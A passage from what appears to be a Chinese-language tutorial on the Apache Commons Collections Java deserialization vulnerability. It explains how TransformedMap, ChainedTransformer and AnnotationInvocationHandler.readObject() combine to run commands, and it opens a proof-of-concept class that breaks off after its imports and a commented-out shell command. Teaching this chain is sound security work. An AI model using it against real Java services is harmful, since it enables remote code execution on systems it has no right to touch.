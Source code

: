 我们知道，如果一个类的方法被重写，那么在调用这个函数时，会优先调用经过修改的方法。因此，如果**某个可序列化的类重写了`readObject()`方法**，并且**在`readObject()`中对Map类型的变量进行了键值修改操作**，**且这个Map变量是可控的**，我们就可以实现攻击目标。

`AnnotationInvocationHandler`类有一个成员变量`memberValues`是Map类型 ，并且`AnnotationInvocationHandler`的`readObject()`函数中对`memberValues`的每一项调用了`setValue()`函数对value值进行一些变换。
![](https://cdn.jsdelivr.net/gh/jitwxs/cdn/blog/posts/201803/2018032618570364.png)

这个类完全符合我们的要求，那么，我们的思路就非常清晰了：

 1. 首先构造一个Map和一个能够执行代码的`ChainedTransformer`
 2. 生成一个`TransformedMap`实例
 3. 实例化`AnnotationInvocationHandler`，并**对其进行序列化**
 4. 当触发`readObject()`反序列化的时候，就能实现命令执行

>TransformedMap--->AnnotationInvocationHandler.readObject()--->setValue()--->漏洞成功触发

### 3.4 代码实例

回顾下知识点：

（1）方法重写

如果一个类的方法被重写，那么调用该方法时**优先**调用该方法。

（2）反射机制

在运行状态中：

- 对于任意一个类，都能够判断一个对象所属的类；

- 对于任意一个类，都能够知道这个类的所有属性和方法；

- 对于任意一个对象，都能够调用它的任意一个方法和属性；

（3）关键类与函数

- **TransformedMap** ： 利用其value修改时触发transform()的特性

- **ChainedTransformer**： 会挨个执行我们定义的Transformer

- **Transformer**:  存放我们要执行的命令

-  **AnnotationInvocationHandler**： 对memberValues的每一项调用了setValue()函数

具体实现：

```java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import java.util.Map.Entry;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

public class POC_Test{
    public static void main(String[] args) throws Exception {
        //execArgs: 待执行的命令数组
        //String[] execArgs = new String[] { "sh", "-c", "whoami &gt; /tmp/fuck" };

```